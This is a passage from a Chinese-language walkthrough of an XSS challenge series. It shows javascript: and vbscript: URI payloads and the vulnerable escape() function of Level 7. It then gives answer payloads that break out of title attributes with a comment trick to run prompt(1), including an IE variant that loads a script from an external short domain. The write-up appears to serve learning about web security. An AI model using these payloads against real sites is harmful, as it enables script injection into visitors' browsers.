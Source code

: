 33 个字符

```
javascript:prompt(1)#{"action":1}

```

IE 下可以使用 vbscript 减少字符

```
vbscript:prompt(1)#{"action":1}

```

## Level 7

* * *

可以使用 js 注释绕过。如下：

```
<p class="comment" title=""><svg/a="></p>
<p class="comment" title=""onload='/*"></p>
<p class="comment" title="*/prompt(1)'"></p>

```

### 代码

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}

```

### 答案

34 个字符：

```
"><svg/a=#"onload='/*#*/prompt(1)'

```

IE 下 31 个字符

```
"><script x=#"async=#"src="//⒛₨

<p class="comment" title=""><script x="></p>
<p class="comment" title=""async="></p>
<p class="comment" title=""src="//⒛₨"></p>

```

